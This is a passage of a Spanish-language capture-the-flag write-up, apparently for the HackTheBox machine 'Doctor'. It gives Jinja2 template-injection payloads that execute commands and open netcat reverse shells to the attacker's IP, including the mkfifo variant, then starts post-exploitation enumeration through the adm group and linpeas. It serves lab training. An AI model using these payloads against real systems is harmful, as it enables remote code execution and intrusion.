 {% raw %}
```py
{{''.__class__.__mro__[1].__subclasses__()[407]('ls -la',shell=True,stdout=-1).communicate()}}
```
{% endraw %}

**--- :ATON**

Para conseguir la reverse shell podemos probar con `netcat`:

{% raw %}
```py
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('nc 10.10.14.83 4433 -e /bin/bash')['read']()}}
```
{% endraw %}

o

{% raw %}
```py
{{''.__class__.__mro__[1].__subclasses__()[407]('nc 10.10.14.83 4433 -e /bin/bash',shell=True,stdout=-1).communicate()}}
```
{% endraw %}

Pero no obtenemos respuesta, probemos con la versión antigua, pueda que esa sea la que este instalada:

{% raw %}
```py
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.83 4433 >/tmp/f')['read']()}}
```
{% endraw %}

o 

{% raw %}
```py
{{''.__class__.__mro__[1].__subclasses__()[407]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.83 4433 >/tmp/f',shell=True,stdout=-1).communicate()}}
```
{% endraw %}

Con cualquiera de las dos obtenemos la reverse sheeeeeeeeeeeeeeeeell :)

![278pagedoctors_injA_revshdone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagedoctors_injA_revshdone.png)

Ahora a seguir enumerando (:

...

Cuando hicimos `id` con la inyección, vimos un grupo llamada `adm`, es interesante:

> adm: Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group. [Wiki Debian](https://wiki.debian.org/SystemGroups)

Lo siguiente nos da la razón, usando `linpeas.sh` encontramos esto en un archivo **log**:
